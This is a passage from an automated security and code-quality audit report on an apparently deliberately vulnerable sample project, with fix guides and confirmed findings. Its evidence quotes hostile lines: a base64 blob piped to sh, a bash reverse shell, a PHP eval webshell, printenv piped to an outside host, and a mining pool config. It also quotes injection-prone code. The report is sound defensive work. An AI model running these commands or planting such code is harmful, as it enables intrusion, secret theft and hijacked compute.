**Impact.** Broken deployments, production code talking to localhost or staging, and secrets or data sent to the wrong environment.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `web/api_client.js:1` | localhost URL hardcoded at a call site | 15 min |
| review/low | `web/api_client.js:2` | Environment-specific host hardcoded: api-staging.myapp.com | 15 min |

**Steps:**

1. Move the base URL to configuration: environment variable / settings file (`API_URL`, `BASE_URL`) loaded once at startup.
2. Keep a safe default only for development (`process.env.API_URL ?? 'http://localhost:3000'`), never in the code path used in production.
3. Add the variable to `.env.example` and to your deployment settings (Vercel/Docker/CI).
4. Fail fast at startup when the variable is missing in production.

**Vulnerable code/config:**
```
const r = await fetch('http://localhost:3000/api/users');
```

**Safe form:**
```
const r = await fetch(`${process.env.API_URL}/api/users`);   // API_URL set per environment
```

**How to verify:** `grep -RInE "https?://(localhost|127\.0\.0\.1)" src/` finds only dev defaults; the app works with a different API_URL.

### 47. Mass assignment / over-posting  · _review_  · 0 confirmed · 1 to review

**What it is.** Request data is bound wholesale to a model, letting clients set fields like `is_admin`, `role`, `price`, `tenant_id`.

**Impact.** Privilege escalation, price tampering, cross-tenant writes.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/high | `app/Http/UserController.php:8` | Mass assignment / over-posting | 15 min |

**Steps:**

1. Use explicit allowlists (`$fillable`, DTO/serializer `fields=[...]`, `permit(:a,:b)`).
2. Never bind sensitive fields from input; set them server-side.

**Vulnerable code/config:**
```
User::create($request->all());
```

**Safe form:**
```
User::create($request->validated());   // FormRequest with explicit rules
```

**How to verify:** POST `is_admin=1`; value must be ignored.

### 48. Infrastructure misconfiguration (K8s/Terraform/CI/nginx)  · _review_  · 0 confirmed · 1 to review

**What it is.** Over-permissive network, IAM, privileges or CI triggers.

**Impact.** Lateral movement, data exposure, CI secret theft.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/high | `infra/main.tf:1` | Terraform/cloud over-exposure | 20 min |

**Steps:**

1. Apply least privilege (no privileged pods, no `0.0.0.0/0` on admin ports, no `Principal: *`).
2. Pin GitHub Actions to commit SHAs; avoid `pull_request_target` with untrusted checkout; never interpolate `${{ github.event.* }}` into `run:`.
3. Disable `autoindex`/`server_tokens`; TLS ≥ 1.2.

**Vulnerable code/config:**
```
cidr_blocks = ["0.0.0.0/0"]  # port 22
```

**Safe form:**
```
cidr_blocks = ["203.0.113.0/24"]  # office/VPN only
```

**How to verify:** `checkov`/`tfsec`/`kube-linter` clean.

### 49. Security work postponed in a TODO  · _review_  · 0 confirmed · 1 to review

**What it is.** A TODO/FIXME says that authentication, validation, sanitising, encryption, rate limiting, CSRF or similar protection still has to be added. The code ships without the protection until somebody remembers.

**Impact.** Missing controls in production: the comment is evidence that the risk is known and unmitigated.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/high | `web/api_client.js:3` | TODO says security work is still missing: auth | 30 min |

**Steps:**

1. Read the surrounding code: is the protection really missing? If yes, treat it as a security finding and fix it now (use the matching guide: `--kb "<topic>"`).
2. If it is already implemented elsewhere, delete the stale TODO so it does not mislead reviewers.
3. If it must wait, open a ticket with an owner and a date, and add a compensating control (feature flag off, network restriction, monitoring).
4. Add a test that fails without the protection so the TODO cannot silently come back.

**Vulnerable code/config:**
```
# TODO: add auth check
def delete_user(id): ...
```

**Safe form:**
```
@require_role('admin')
def delete_user(id): ...
```

**How to verify:** The protection exists and a test covers it; the TODO is gone; unauthorized requests are rejected.

### 50. Hardcoded identity check (backdoor smell)  · _review_  · 0 confirmed · 1 to review

**What it is.** Authorization depends on a literal identity: `user.id == 1`, `email == 'admin'`, `username == 'root'`. Whoever owns that account (or can create one with that value) becomes privileged.

**Impact.** Privilege escalation by registering the magic email/username, or a forgotten developer backdoor.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/high | `web/api_client.js:7` | Authorization depends on a literal user id | 30 min |

**Steps:**

1. Replace the literal with a role or permission stored on the user and checked by your authorization layer (RBAC/policies).
2. Remove the special-case account from the code and seed the admin through a migration or CLI command.
3. Review how accounts are created so nobody can register with a reserved value.
4. Add a test that a normal user with that id/email pattern is NOT privileged.

**Vulnerable code/config:**
```
if (user.id === 1) allowAll();
```

**Safe form:**
```
if (user.can('manage-users')) allowAll();
```

**How to verify:** Privileged behaviour depends on roles/permissions only; the test with a look-alike account is denied.

### 51. N+1 queries  · _review_  · 0 confirmed · 1 to review

**What it is.** A query runs inside a loop - one query per row instead of one for all rows.

**Impact.** Latency and DB load grow linearly with data; self-inflicted DoS under load.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `backend/app.py:59` | Query inside a loop (possible N+1) | 30 min |

**Steps:**

1. Eager-load/batch: `with('rel')`, `select_related/prefetch_related`, `include`, `JOIN`, or `WHERE id IN (...)`.
2. Verify with query logging; add an assertion on query count in a test.

**Vulnerable code/config:**
```
for u in users: u.orders.all()
```

**Safe form:**
```
users = User.objects.prefetch_related('orders')
```

**How to verify:** Query count independent of N.

### 52. Debug/dev configuration  · _review_  · 0 confirmed · 1 to review

**What it is.** Debug mode exposes stack traces, config, and sometimes an interactive console.

**Impact.** Information disclosure and sometimes RCE (Werkzeug debugger).

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `backend/app.py:66` | Debug mode enabled | 5 min |

**Steps:**

1. Drive from environment: `DEBUG=False`/`APP_DEBUG=false`/`NODE_ENV=production` in production.
2. Ensure the dev value is not the default in committed prod config.

**Vulnerable code/config:**
```
app.run(debug=True)
```

**Safe form:**
```
app.run(debug=os.environ.get('FLASK_DEBUG') == '1')
```

**How to verify:** Trigger an error in prod-like env: generic error page only.

### 53. Permissive CORS  · _review_  · 0 confirmed · 1 to review

**What it is.** Any origin may read responses; with credentials this exposes authenticated data cross-site.

**Impact.** Data theft from logged-in users via a malicious site.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `backend/server.js:3` | Permissive CORS (*) | 10 min |

**Steps:**

1. Replace `*` with an explicit allowlist of origins.
2. Never combine reflected-Origin with `Allow-Credentials: true`.

**Vulnerable code/config:**
```
cors({ origin: '*' })
```

**Safe form:**
```
cors({ origin: ['https://app.example.com'], credentials: true })
```

**How to verify:** Send `Origin: https://evil.com` and confirm no ACAO header.

### 54. Leftover AI placeholder (truncated code)  · _review_  · 0 confirmed · 1 to review

**What it is.** A comment such as '... rest of the code remains the same', '// ... existing code ...' or 'implementation goes here' is a common leftover of AI-assisted edits. If it replaced real code, the file is incomplete; if not, it is just noise.

**Impact.** Missing logic (functions that silently do nothing), broken builds, or confusing reviewers about what is real.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `backend/utils_ai.py:2` | Leftover AI placeholder comment (possible truncated code) | 10 min |

**Steps:**

1. Open the file around the marker and compare with `git diff` / `git log -p -- <file>`: was something deleted?
2. If code is missing, restore it from history or rewrite it; if the comment is only a leftover, delete it.
3. Add a test that exercises the function so truncation is caught automatically.

**Vulnerable code/config:**
```
def process(order):
    # ... rest of the code remains the same ...

```

**Safe form:**
```
def process(order):
    validate(order)
    return charge(order)

```

**How to verify:** The function is implemented and tests pass; no placeholder phrases remain.

### 55. Hardcoded IP address  · _review_  · 0 confirmed · 1 to review

**What it is.** A host, server or endpoint is configured with a literal IP address inside the code.

**Impact.** Outages when the address changes, no failover or load balancing, impossible to point staging at another host, and internal topology exposed in the repository.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/medium | `web/api_client.js:6` | IP address hardcoded as a host: 10.0.3.17 | 20 min |

**Steps:**

1. Use a DNS name and put it in configuration (environment variable / secret manager / service discovery).
2. If the IP is intentional (allow-list, fixed appliance), define it once in config with a comment explaining why.
3. Remove internal addresses from public repositories and rotate anything that depended on their secrecy.

**Vulnerable code/config:**
```
DB_HOST = '10.0.3.17'
```

**Safe form:**
```
DB_HOST = os.environ['DB_HOST']   # db.internal.example.com
```

**How to verify:** No IP literals remain in application code; the service starts with the hostname from the environment.

### 56. Hardcoded business rate (tax / fee / discount)  · _review_  · 0 confirmed · 1 to review

**What it is.** A tax, fee, commission, discount or interest rate is written as a number inside a function. Business rules change, differ per country/customer, and must be auditable.

**Impact.** Wrong totals after a rate change, no history of which rate applied to which order, and inconsistent copies across the code.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| review/low | `backend/billing.py:3` | Business rate hardcoded in a function: tax_rate | 20 min |

**Steps:**

1. Move the rate to configuration or a table (per country/plan/date) with an effective-from date.
2. Read it through one function (`get_tax_rate(country, date)`) and use decimal/integer cents for money.
3. Store the rate used on each invoice/order so past totals stay reproducible.
4. Add tests for each rate and for a rate change.

**Vulnerable code/config:**
```
def total(x):
    tax_rate = 0.21
    return x * (1 + tax_rate)
```

**Safe form:**
```
def total(x, country):
    return x * (1 + rates.tax(country))
```

**How to verify:** No literal rates remain in business logic; changing the table changes the result without a deploy.

<a id="detalle"></a>
## Confirmed findings — detail

#### SEC-001 · critical · 1 of 2 sampled `users.password` values do not look hashed

- **Location:** `app.db:1`  ·  **Type:** vulnerability/crypto  ·  **CWE:** CWE-256  ·  **OWASP:** A02:2021  ·  **Effort:** 120 min

**Evidence:**
```
1/2 sampled rows in users.password (values not shown)
```

#### SEC-002 · critical · Shell command execution (PHP)

- **Location:** `app/Http/UserController.php:10`  ·  **Type:** vulnerability/cmdi  ·  **CWE:** CWE-78  ·  **OWASP:** A03:2021  ·  **Effort:** 30 min

**Evidence:**
```
if ($password == $stored) { return true; }
    system("convert " . $_GET['f']);
  }
```

#### SEC-003 · critical · Shell command execution (Python)

- **Location:** `backend/app.py:25`  ·  **Type:** vulnerability/cmdi  ·  **CWE:** CWE-78  ·  **OWASP:** A03:2021  ·  **Effort:** 30 min

**Evidence:**
```
host = request.args.get("host")
    os.system("ping -c 1 " + host)
    return "ok"
```

#### SEC-004 · critical · Unsafe deserialization

- **Location:** `backend/app.py:43`  ·  **Type:** vulnerability/deserialization  ·  **CWE:** CWE-502  ·  **OWASP:** A08:2021  ·  **Effort:** 45 min

**Evidence:**
```
def load():
    return str(pickle.loads(request.data))
```

#### SEC-005 · critical · Shell command execution (Node)

- **Location:** `backend/server.js:6`  ·  **Type:** vulnerability/cmdi  ·  **CWE:** CWE-78  ·  **OWASP:** A03:2021  ·  **Effort:** 30 min

**Evidence:**
```
app.get('/u', async (req, res) => { const { id } = req.query; const r = await db.query(`SELECT * FROM users WHERE id = ${id}`); res.json(r); });
app.get('/run', (req, res) => { exec('ls ' + req.query.dir, (e, o) => res.send(o)); });
app.post('/login', (req, res) => { const t = jwt.sign({ u: req.body.u }, 'hardcodedjwtsecret'); res.json({ t }); });
```

#### SEC-006 · critical · Wallet private key hard-coded

- **Location:** `contracts/.env.example2:1`  ·  **Type:** vulnerability/secrets  ·  **CWE:** CWE-321, CWE-798  ·  **OWASP:** A02:2021  ·  **Effort:** 30 min

**Evidence:**
```
PRIV…
```

#### SEC-007 · critical · `initialize()` can be called by anyone and more than once

- **Location:** `contracts/Vault.sol:26`  ·  **Type:** vulnerability/access-control  ·  **CWE:** CWE-665  ·  **Effort:** 45 min

**Evidence:**
```
function initialize(address o) public {
```

#### SEC-008 · critical · Shell decodes a blob and pipes it to a shell

- **Location:** `scripts/setup.sh:1`  ·  **Type:** vulnerability/malware  ·  **CWE:** CWE-506, CWE-78  ·  **OWASP:** A08:2021  ·  **Effort:** 60 min

**Evidence:**
```
echo 'aW1wb3J0IG9zOyBvcy5zeXN0ZW0oJ2N1cmwgZXZpbC5zaCB8IHNoJyk=aW1wb3J0IG9z' | base64 -d | sh
```

#### SEC-009 · critical · Bash reverse shell (/dev/tcp)

- **Location:** `scripts/update.sh:2`  ·  **Type:** vulnerability/malware  ·  **CWE:** CWE-506, CWE-78  ·  **OWASP:** A08:2021  ·  **Effort:** 60 min

**Evidence:**
```
bash -i >& /dev/tcp/203.0.113.9/4444 0>&1
```

#### SEC-010 · critical · PHP executes request data (webshell)

- **Location:** `web/uploads/shell.php:1`  ·  **Type:** vulnerability/malware  ·  **CWE:** CWE-506, CWE-94  ·  **OWASP:** A08:2021  ·  **Effort:** 60 min

**Evidence:**
```
<?php @eval($_POST['x']); ?>
```

#### BUG-001 · high · iOS: code uses a protected API but Info.plist lacks NSLocationWhenInUseUsageDescription (crash + App Store rejection)

- **Location:** `mobile/ios/App/Info.plist:1`  ·  **Type:** bug/mobile  ·  **CWE:** CWE-276  ·  **OWASP:** M6:2024  ·  **Effort:** 10 min

**Evidence:**
```
missing NSLocationWhenInUseUsageDescription
```

#### BUG-002 · high · 1 web-first assertion(s) not awaited - they never fail the test

- **Location:** `web/tests/checkout.spec.ts:6`  ·  **Type:** bug/flaky  ·  **CWE:** CWE-754  ·  **Effort:** 3 min

**Evidence:**
```
web/tests/checkout.spec.ts:6  expect(page.getByText('Done')).toBeVisible();
```

#### SEC-011 · high · Pipes environment/credentials to a network tool

- **Location:** `.github/workflows/deploy.yml:7`  ·  **Type:** vulnerability/malware  ·  **CWE:** CWE-200, CWE-506  ·  **OWASP:** A08:2021  ·  **Effort:** 60 min

**Evidence:**
```
- run: printenv | curl -X POST -d @- https://collector.example/x
```

#### SEC-012 · high · SQL built with string concatenation (PHP)

- **Location:** `app/Http/UserController.php:5`  ·  **Type:** vulnerability/sqli  ·  **CWE:** CWE-89  ·  **OWASP:** A03:2021  ·  **Effort:** 20 min

**Evidence:**
```
$id = $_GET['id'];
    $r = DB::select("SELECT * FROM users WHERE id = " . $id);
    echo "Hello " . $_GET['name'];
```

#### SEC-013 · high · Request data echoed without encoding (PHP)

- **Location:** `app/Http/UserController.php:6`  ·  **Type:** vulnerability/xss  ·  **CWE:** CWE-79  ·  **OWASP:** A03:2021  ·  **Effort:** 10 min

**Evidence:**
```
$r = DB::select("SELECT * FROM users WHERE id = " . $id);
    echo "Hello " . $_GET['name'];
    $u = User::findOrFail($request->id);
```

#### SEC-014 · high · Object loaded by client-supplied id (check ownership)

- **Location:** `app/Http/UserController.php:7`  ·  **Type:** vulnerability/authz  ·  **CWE:** CWE-639, CWE-862  ·  **OWASP:** A01:2021, API1:2023  ·  **Effort:** 20 min

**Evidence:**
```
echo "Hello " . $_GET['name'];
    $u = User::findOrFail($request->id);
    User::create($request->all());
```

#### SEC-015 · high · Hard-coded credential

- **Location:** `backend/app.py:5`  ·  **Type:** vulnerability/secrets  ·  **CWE:** CWE-798  ·  **OWASP:** A07:2021  ·  **Effort:** 20 min

**Evidence:**
```
SECRET_KEY = "supe…"
```

#### SEC-016 · high · Database URL with credentials

- **Location:** `backend/app.py:6`  ·  **Type:** vulnerability/secrets  ·  **CWE:** CWE-798  ·  **OWASP:** A07:2021  ·  **Effort:** 20 min

**Evidence:**
```
DB_URL = "post…"
```

#### SEC-017 · high · SQL built with string formatting (Python)

- **Location:** `backend/app.py:12`  ·  **Type:** vulnerability/sqli  ·  **CWE:** CWE-89  ·  **OWASP:** A03:2021  ·  **Effort:** 20 min

**Evidence:**
```
cur = sqlite3.connect("db/app.db").cursor()
    cur.execute(f"SELECT * FROM users ORDER BY {sort}")
    return str(cur.fetchall())
```

#### SEC-018 · high · SQL built with string formatting (Python)

- **Location:** `backend/app.py:19`  ·  **Type:** vulnerability/sqli  ·  **CWE:** CWE-89  ·  **OWASP:** A03:2021  ·  **Effort:** 20 min

**Evidence:**
```
cur = sqlite3.connect("db/app.db").cursor()
    cur.execute("SELECT * FROM items WHERE name = '%s'" % q)
    return render_template_string("<h1>Results for " + q + "</h1>")
```

#### SEC-019 · high · User input rendered as HTML without escaping (Python)

- **Location:** `backend/app.py:20`  ·  **Type:** vulnerability/xss  ·  **CWE:** CWE-79  ·  **OWASP:** A03:2021  ·  **Effort:** 10 min

**Evidence:**
```
cur.execute("SELECT * FROM items WHERE name = '%s'" % q)
    return render_template_string("<h1>Results for " + q + "</h1>")
```

#### SEC-020 · high · Outbound request to user-controlled URL

- **Location:** `backend/app.py:31`  ·  **Type:** vulnerability/ssrf  ·  **CWE:** CWE-918  ·  **OWASP:** A10:2021, API7:2023  ·  **Effort:** 30 min

**Evidence:**
```
url = request.args.get("url")
    return requests.get(url).text
```

#### SEC-021 · high · File access with user-controlled path

- **Location:** `backend/app.py:39`  ·  **Type:** vulnerability/path  ·  **CWE:** CWE-22  ·  **OWASP:** A01:2021  ·  **Effort:** 20 min

**Evidence:**
```
def file():
    return send_file("/var/data/" + request.args.get("f"))
```

#### SEC-022 · high · Password hashed with MD5/SHA-1

- **Location:** `backend/app.py:51`  ·  **Type:** vulnerability/crypto  ·  **CWE:** CWE-327, CWE-916  ·  **OWASP:** A02:2021  ·  **Effort:** 60 min

**Evidence:**
```
def hash_password(password):
    return hashlib.md5(password.encode()).hexdigest()
```

#### SEC-023 · high · User input written straight into HTML response (Node)

- **Location:** `backend/server.js:4`  ·  **Type:** vulnerability/xss  ·  **CWE:** CWE-79  ·  **OWASP:** A03:2021  ·  **Effort:** 10 min

**Evidence:**
```
app.use(require('cors')({ origin: '*' }));
app.get('/hello', (req, res) => { res.send('<h1>Hello ' + req.query.name + '</h1>'); });
app.get('/u', async (req, res) => { const { id } = req.query; const r = await db.query(`SELECT * FROM users WHERE id = ${id}`); res.json(r); });
```

#### SEC-024 · high · SQL built with template/concatenation (JS/TS)

- **Location:** `backend/server.js:5`  ·  **Type:** vulnerability/sqli  ·  **CWE:** CWE-89  ·  **OWASP:** A03:2021  ·  **Effort:** 20 min

**Evidence:**
```
app.get('/hello', (req, res) => { res.send('<h1>Hello ' + req.query.name + '</h1>'); });
app.get('/u', async (req, res) => { const { id } = req.query; const r = await db.query(`SELECT * FROM users WHERE id = ${id}`); res.json(r); });
app.get('/run', (req, res) => { exec('ls ' + req.query.dir, (e, o) => res.send(o)); });
```

#### SEC-025 · high · User input written straight into HTML response (Node)

- **Location:** `backend/server.js:6`  ·  **Type:** vulnerability/xss  ·  **CWE:** CWE-79  ·  **OWASP:** A03:2021  ·  **Effort:** 10 min

**Evidence:**
```
app.get('/u', async (req, res) => { const { id } = req.query; const r = await db.query(`SELECT * FROM users WHERE id = ${id}`); res.json(r); });
app.get('/run', (req, res) => { exec('ls ' + req.query.dir, (e, o) => res.send(o)); });
app.post('/login', (req, res) => { const t = jwt.sign({ u: req.body.u }, 'hardcodedjwtsecret'); res.json({ t }); });
```

#### SEC-026 · high · JWT signed with hard-coded secret

- **Location:** `backend/server.js:7`  ·  **Type:** vulnerability/authn  ·  **CWE:** CWE-798, CWE-347  ·  **OWASP:** A07:2021  ·  **Effort:** 20 min

**Evidence:**
```
app.post('/log…', (req, res) => { const t = jwt.sign({ u: req.body.u }, 'hard…'); res.json({ t }); });
```

#### SEC-027 · high · Object loaded by client-supplied id (check ownership)

- **Location:** `backend/server.js:8`  ·  **Type:** vulnerability/authz  ·  **CWE:** CWE-639, CWE-862  ·  **OWASP:** A01:2021, API1:2023  ·  **Effort:** 20 min

**Evidence:**
```
app.post('/login', (req, res) => { const t = jwt.sign({ u: req.body.u }, 'hardcodedjwtsecret'); res.json({ t }); });
app.get('/item/:id', async (req, res) => { const it = await Item.findById(req.params.id); res.json(it); });
const token = Math.random().toString(36); // reset token
```

#### SEC-028 · high · Cryptocurrency miner (stratum / XMRig / CoinHive)

- **Location:** `config/pool.json:1`  ·  **Type:** vulnerability/malware  ·  **CWE:** CWE-506  ·  **OWASP:** A08:2021  ·  **Effort:** 60 min

**Evidence:**
```
{"url": "stratum+tcp://pool.minexmr.com:4444", "donate-level": 1}
```

#### SEC-029 · high · `withdraw()` updates state AFTER an external call (reentrancy)

- **Location:** `contracts/Vault.sol:12`  ·  **Type:** vulnerability/reentrancy  ·  **CWE:** CWE-841  ·  **Effort:** 60 min

**Evidence:**
```
ender] >= amt, "no funds");         (bool ok, ) = msg.sender.call{value: amt}("");         balances[msg.sender] -= amt;     }
```

#### SEC-030 · high · `sweep()` moves value/mints/burns/selfdestructs but has no visible access control

- **Location:** `contracts/Vault.sol:18`  ·  **Type:** vulnerability/access-control  ·  **CWE:** CWE-284  ·  **Effort:** 60 min

**Evidence:**
```
function sweep(address payable to) external {
```

#### SEC-031 · high · Solidity tx.origin authorization

- **Location:** `contracts/Vault.sol:22`  ·  **Type:** vulnerability/authn  ·  **CWE:** CWE-477  ·  **Effort:** 20 min

**Evidence:**
```
function isOwner() public view returns (bool) { return tx.o… == owner; }
```

#### SEC-032 · high · tx.origin used for authorization (phishing via intermediate contract)

- **Location:** `contracts/Vault.sol:22`  ·  **Type:** vulnerability/access-control  ·  **CWE:** CWE-477  ·  **Effort:** 15 min

**Evidence:**
```
tx.origin
```

#### SEC-033 · high · `pickWinner()` derives randomness from block data (miner/validator-influenced)

- **Location:** `contracts/Vault.sol:24`  ·  **Type:** vulnerability/randomness  ·  **CWE:** CWE-330  ·  **Effort:** 120 min

**Evidence:**
```
block.timestamp/prevrandao used for randomness
```

#### SEC-034 · high · Over-broad GRANT

- **Location:** `db/schema.sql:3`  ·  **Type:** vulnerability/authz  ·  **CWE:** CWE-250  ·  **OWASP:** A01:2021  ·  **Effort:** 20 min

**Evidence:**
```
GRANT ALL PRIVILEGES ON *.*
```

#### SEC-035 · high · Database user password in SQL script

- **Location:** `db/schema.sql:4`  ·  **Type:** vulnerability/secrets  ·  **CWE:** CWE-798  ·  **OWASP:** A07:2021  ·  **Effort:** 20 min

**Evidence:**
```
CREATE USER 'app'@'%' IDENTIFIED BY 'pl…'
```

#### SEC-036 · high · Raw HTML sink (innerHTML/document.write)

- **Location:** `frontend/src/App.jsx:2`  ·  **Type:** vulnerability/xss  ·  **CWE:** CWE-79  ·  **OWASP:** A03:2021  ·  **Effort:** 15 min

**Evidence:**
```
export default function App({ html, user }) {
  useEffect(() => { document.getElementById('x').innerHTML = location.hash; }, []);
  localStorage.setItem('token', user.token);
```

#### SEC-037 · high · Android: debuggable / cleartext

- **Location:** `mobile/android/app/src/main/AndroidManifest.xml:2`  ·  **Type:** vulnerability/mobile  ·  **CWE:** CWE-489, CWE-319  ·  **OWASP:** M8:2024  ·  **Effort:** 5 min

**Evidence:**
```
<manifest xmlns:android="http://schemas.android.com/apk/res/android">
  <application android:debuggable="true" android:allowBackup="true" android:usesCleartextTraffic="true">
    <activity android:name=".Main" android:exported="true"/>
```

#### SEC-038 · high · Dynamic code evaluation

- **Location:** `web/uploads/shell.php:1`  ·  **Type:** vulnerability/code-injection  ·  **CWE:** CWE-95  ·  **OWASP:** A03:2021  ·  **Effort:** 30 min

**Evidence:**
```
<?php @eval($_POST['x']); ?>
```

#### SEO-001 · high · Pages without <title> (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** bug/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html
```

#### SEO-002 · high · robots.txt blocks the whole site (Disallow: /)

- **Location:** `web/public/robots.txt:1`  ·  **Type:** bug/seo  ·  **Effort:** 5 min

**Evidence:**
```
Disallow: /
```

#### A11-001 · medium · Image without alt text

- **Location:** `web/index.html:10`  ·  **Type:** bug/a11y  ·  **Effort:** 3 min

**Evidence:**
```
<body>

<div onclick="buy()">Buy now</div>
```

#### A11-002 · medium · Click handler on a non-interactive element (keyboard/screen-reader inaccessible)

- **Location:** `web/index.html:11`  ·  **Type:** bug/a11y  ·  **Effort:** 10 min

**Evidence:**
```

<div onclick="buy()">Buy now</div>
<h1>Shop</h1><h1>Welcome</h1>
```

#### BUG-003 · medium · Invalid foreign key definition

- **Location:** `app.db:1`  ·  **Type:** bug/database  ·  **Effort:** 30 min

**Evidence:**
```
foreign key mismatch - "orders" referencing "users"
```

#### BUG-004 · medium · Money column `users.balance` uses REAL

- **Location:** `app.db:1`  ·  **Type:** bug/database  ·  **CWE:** CWE-681  ·  **Effort:** 30 min

**Evidence:**
```
balance REAL
```

#### BUG-005 · medium · Money column `orders.total` uses REAL

- **Location:** `app.db:1`  ·  **Type:** bug/database  ·  **CWE:** CWE-681  ·  **Effort:** 30 min

**Evidence:**
```
total REAL
```

#### BUG-006 · medium · Loose comparison in auth/token check

- **Location:** `app/Http/UserController.php:9`  ·  **Type:** bug/authn  ·  **CWE:** CWE-697, CWE-1025  ·  **OWASP:** A07:2021  ·  **Effort:** 10 min

**Evidence:**
```
User::create($request->all());
    if ($password == $stored) { return true; }
    system("convert " . $_GET['f']);
```

#### BUG-007 · medium · async callback in forEach (not awaited)

- **Location:** `backend/server.js:10`  ·  **Type:** bug/async  ·  **CWE:** CWE-662  ·  **Effort:** 15 min

**Evidence:**
```
const token = Math.random().toString(36); // reset token
['a','b'].forEach(async (x) => { await save(x); });
app.listen(3000);
```

#### BUG-008 · medium · Money column `users.price` uses FLOAT

- **Location:** `db/schema.sql:1`  ·  **Type:** bug/database  ·  **CWE:** CWE-681  ·  **Effort:** 30 min

**Evidence:**
```
, price FLOAT
```

#### BUG-009 · medium · Money column `orders.total` uses FLOAT

- **Location:** `db/schema.sql:2`  ·  **Type:** bug/database  ·  **CWE:** CWE-681  ·  **Effort:** 30 min

**Evidence:**
```
, total FLOAT
```

#### BUG-010 · medium · Focused test committed (`.only` / `fit`) - the rest of the suite is silently skipped

- **Location:** `web/tests/checkout.spec.ts:8`  ·  **Type:** bug/test-quality  ·  **Effort:** 2 min

**Evidence:**
```
(see location)
```

#### COD-001 · medium · Project has no README

- **Location:** `.:1`  ·  **Type:** code_smell/documentation  ·  **Effort:** 45 min

**Evidence:**
```
(README.md missing)
```

#### COD-002 · medium · CI does not appear to run: tests, lint

- **Location:** `.github/workflows/deploy.yml:1`  ·  **Type:** code_smell/standards  ·  **Effort:** 45 min

**Evidence:**
```
scanned 1 CI file(s)
```

#### COD-003 · medium · Table `users` has no PRIMARY KEY

- **Location:** `app.db:1`  ·  **Type:** code_smell/database  ·  **CWE:** CWE-1007  ·  **Effort:** 25 min

**Evidence:**
```
users(email, password, balance)
```

#### COD-004 · medium · Table `users` has no PRIMARY KEY

- **Location:** `db/schema.sql:1`  ·  **Type:** code_smell/database  ·  **CWE:** CWE-1007  ·  **Effort:** 20 min

**Evidence:**
```
CREATE TABLE users (...)  -- no PRIMARY KEY
```

#### COD-005 · medium · Marker says to remove or fix this before production

- **Location:** `web/api_client.js:5`  ·  **Type:** code_smell/todo  ·  **Effort:** 20 min

**Evidence:**
```
// TEMP: skip auth for now, remove before prod
```

#### SEC-039 · medium · SQLite file is world-accessible (0o644)

- **Location:** `app.db:1`  ·  **Type:** vulnerability/misconfiguration  ·  **CWE:** CWE-732  ·  **OWASP:** A05:2021  ·  **Effort:** 5 min

**Evidence:**
```
0o644
```

#### SEC-040 · medium · Redirect to user-controlled URL

- **Location:** `backend/app.py:35`  ·  **Type:** vulnerability/redirect  ·  **CWE:** CWE-601  ·  **OWASP:** A01:2021  ·  **Effort:** 10 min

**Evidence:**
```
def go():
    return redirect(request.args.get("next"))
```

#### SEC-041 · medium · Non-cryptographic RNG for secrets

- **Location:** `backend/server.js:9`  ·  **Type:** vulnerability/crypto  ·  **CWE:** CWE-338  ·  **OWASP:** A02:2021  ·  **Effort:** 10 min

**Evidence:**
```
app.get('/item/:id', async (req, res) => { const it = await Item.findById(req.params.id); res.json(it); });
const token = Math.random().toString(36); // reset token
['a','b'].forEach(async (x) => { await save(x); });
```

#### SEC-042 · medium · Solidity randomness from block data

- **Location:** `contracts/Vault.sol:24`  ·  **Type:** vulnerability/crypto  ·  **CWE:** CWE-330  ·  **Effort:** 60 min

**Evidence:**
```
function pickWinner() external view returns (uint) { return uint(keccak256(abi.encodePacked(block.timestamp, msg.sender))) % 10; }
```

#### SEC-043 · medium · Password column `users.password` too short for a modern hash (32)

- **Location:** `db/schema.sql:1`  ·  **Type:** vulnerability/database  ·  **CWE:** CWE-257  ·  **OWASP:** A02:2021  ·  **Effort:** 30 min

**Evidence:**
```
, password VARCHAR(32)
```

#### SEC-044 · medium · Secret/password written to logs

- **Location:** `frontend/src/App.jsx:4`  ·  **Type:** vulnerability/logging  ·  **CWE:** CWE-532  ·  **OWASP:** A09:2021  ·  **Effort:** 5 min

**Evidence:**
```
localStorage.setItem('token', user.token);
  console.log('login', user.password);
  return <div dangerouslySetInnerHTML={{ __html: html }} />;
```

#### SEM-001 · medium · Tracking tags found (Google Analytics 4, Meta Pixel) but no consent management detected

- **Location:** `web/index.html:1`  ·  **Type:** vulnerability/privacy  ·  **OWASP:** A04:2021  ·  **Effort:** 120 min

**Evidence:**
```
Google Analytics 4 @ web/index.html, Meta Pixel @ web/index.html
```

#### SEO-003 · medium · No sitemap.xml (or generator) found

- **Location:** `.:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 30 min

**Evidence:**
```
(see location)
```

#### SEO-004 · medium · Pages without meta description (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html
```

#### SEO-005 · medium · Pages without viewport meta (not mobile-friendly) (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** bug/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html
```

#### TST-001 · medium · Android: no unit tests (src/test) for the app code

- **Location:** `.:1`  ·  **Type:** test_gap/test-infra  ·  **Effort:** 240 min

**Evidence:**
```
1 source files, 0 in src/test
```

#### TST-002 · medium · Android: no instrumented/UI tests (src/androidTest)

- **Location:** `.:1`  ·  **Type:** test_gap/test-infra  ·  **Effort:** 240 min

**Evidence:**
```
(see location)
```

#### TST-003 · medium · Test file `mobile/ios/AppUITests/LoginUITests.swift` defines tests but contains no assertions

- **Location:** `mobile/ios/AppUITests/LoginUITests.swift:1`  ·  **Type:** test_gap/test-quality  ·  **Effort:** 20 min

**Evidence:**
```
